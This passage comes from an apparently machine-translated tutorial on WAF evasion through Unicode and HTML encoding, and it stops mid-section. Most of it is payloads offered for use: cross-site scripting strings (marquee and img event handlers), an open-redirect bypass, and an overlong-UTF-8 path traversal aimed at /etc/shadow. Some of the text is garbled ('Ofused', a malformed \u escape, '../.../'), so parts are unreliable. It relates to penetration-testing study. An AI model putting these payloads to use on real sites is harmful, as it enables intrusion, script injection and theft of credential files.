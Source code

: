 ### 3. Unicode Technique

ASCII characters in Unicode encoding provide excellent variants to avoid WAF. Encode all or part of the payload to get results.

**Basic request:**

```bash
<marquee onstart=prompt()>
```

**Ofused:**

```bash
<marquee onstart=\u0070r\u06f\u006dpt()>
```

**Blocked by WAF:**

```bash
/?redir=http://google.com
```

***Technique skipped:**

```bash
/?redir=http://google。com (Unicode alternative)
```

**Blocked by WAF:**

```bash
<marquee loop=1 onfinish=alert()>x
```

**Skipped technique:**

```bash
＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative).
```

**Basic request:**.

> ../.../etc/shadow

**Ofused:**

```bash
%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow
```

### 4. HTML Rendering Technique

Web applications encode special characters in HTML. Encode and render them accordingly. Basic bypass cases with numeric and generic HTML encoding.

**Basic request:** 

```bash
<img src=x onerror=confirm()>
```

**Encoded payload:**

